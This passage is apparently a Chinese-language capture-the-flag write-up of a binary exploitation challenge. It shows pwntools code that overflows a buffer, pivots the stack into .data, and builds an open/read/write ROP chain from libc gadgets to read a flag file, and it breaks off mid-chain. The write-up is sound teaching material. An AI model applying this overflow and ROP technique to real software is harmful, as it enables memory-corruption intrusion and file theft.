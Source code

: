 隨手在 `libc` 裡搜了 ORW 和操作 registers 的 gadgets：

```python=
libc_pop_rdi_ret = libc_base + 0x000000000002A3E5
libc_pop_rsi_ret = libc_base + 0x000000000002BE51
libc_pop_rdx_ret = libc_base + 0x00000000000796A2
libc_pop_rsp_ret = libc_base + 0x0000000000035732
libc_open_addr = libc_base + 0x1142F0
libc_read_addr = libc_base + 0x1145E0
libc_write_addr = libc_base + 0x114680
```

Leak 不到 stack 的位置，所以只好 stack pivot 把 stack 搬到我認識的地方，並且跳回 `main+160` 再輸入一次。我選擇 `.data` 段偏移 `0x100` 當作新的 stack 的位置：

```python=
main_160 = 0x401367
data_start = 0x0000000000404060

rbp = data_start + 0x100
payload = b"A" * 112 + p64(rbp) + p64(main_160)

r.recvuntil(b"name: ")
r.sendline(payload)
```

下一輪就可以串 ROP chain 放檔名，不過因為我放的不是 `.bss` 段之類的，感覺原本的髒東西讓我做事做得很痛苦。

串出來的 ROP chain 長這樣：

```python=
rop_chain = b""

rop_chain += p64(libc_pop_rdi_ret) + p64(rbp - 0x70)
rop_chain += p64(libc_pop_rsi_ret) + p64(0)
rop_chain += p64(libc_pop_rdx_ret) + p64(0)
rop_chain += p64(libc_open_addr)

rop_chain += p64(libc_pop_rdi_ret) + p64(3)
rop_chain += p64(libc_pop_rsi_ret) + p64(data_start)
rop_chain += p64(libc_pop_rdx_ret) + p64(0x62)
rop_chain += p64(libc_read_addr)

rop_chain += p64(libc_pop_rdi_ret) + p64(1)
# rop_chain += p64(libc_pop_rsi_ret) + p64(data_start)
# rop_chain += p64(libc_pop_rdx_ret) + p64(0x62)
rop_chain += p64(libc_write_addr)
```

因為我的 stack 爛掉的原因，我 return address 後面放不下太多 gadgets。自從上次在 `Note` 用了搬動 `$rsp` 的奇淫怪招後，我直接再次中毒，把 ROP chain 切成二段：一段正常接在 return address 後 (`mov_rsp_chain`)、一段直接放在前面本來應該塞垃圾的地方(`rop_chain`)，並在 `mov_rsp_chain` 的最後把 `$rsp` 搬到 `rop_chain` 上。

所以實際上我的二個 chain 長這樣：

```python=
jackpot = 0x40129E
filename = b"flag\x00"

mov_rsp_chain = p64(jackpot) # 而且如果不跳到 jackpot 上還會讓中間 `puts()` 壞掉 = =

mov_rsp_chain += p64(libc_pop_rdi_ret) + p64(rbp - 0x70) # address of payload
mov_rsp_chain += p64(libc_pop_rsi_ret) + p64(0)
mov_rsp_chain += p64(libc_pop_rdx_ret) + p64(0)
mov_rsp_chain += p64(libc_open_addr)

mov_rsp_chain += p64(libc_pop_rdi_ret) + p64(3)
mov_rsp_chain += p64(libc_pop_rsi_ret) + p64(data_start) # I place FLAG at `.data`
mov_rsp_chain += p64(libc_pop_rdx_ret) + p64(0x62) # copy from HACHAMA :P
```